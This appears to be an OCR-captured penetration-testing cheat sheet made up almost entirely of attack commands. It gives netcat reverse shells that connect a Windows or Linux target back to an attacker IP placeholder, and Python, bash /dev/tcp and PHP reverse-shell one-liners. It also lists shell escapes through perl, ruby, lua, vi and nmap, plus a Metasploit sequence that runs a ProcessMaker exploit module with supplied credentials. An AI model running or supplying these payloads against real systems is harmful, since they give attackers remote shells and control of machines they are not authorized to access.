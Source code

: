 ```bash
# REVERSE SHELL

## Attacker Linux machine
nc -nvlp <PORT>
## Target Win machine
nc.exe -nv <ATTACKER_IP> <ATTACKER_PORT> -e cmd.exe

## Attacker Linux machine
nc -nvlp <PORT>
## Target Linux machine
nc -nv <ATTACKER_IP> <ATTACKER_PORT> -e /bin/bash
```

```bash
# Spawn shells
python -c 'import pty; pty.spawn("/bin/sh")'
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TARGET_IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
echo os.system('/bin/bash')
/bin/sh -i
bash -i >& /dev/tcp/<TARGET_IP>/4444 0>&1
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<TARGET_IP>/4444 0>&1'"); ?>
/usr/bin/script -qc /bin/bash /dev/null
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
IRB: exec "/bin/sh"
vi: :!bash
vi: :set shell=/bin/bash:shell
nmap: !sh
```

### Frameworks

```bash
# METASPLOIT - example
service postgresql start && msfconsole -q
db_status
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>
workspace -a <SERVICE_NAME>

search <SERVICE_NAME>
use exploit/multi/http/processmaker_exec
options
set USERNAME <USER>
set PASSWORD <PW>
run
```
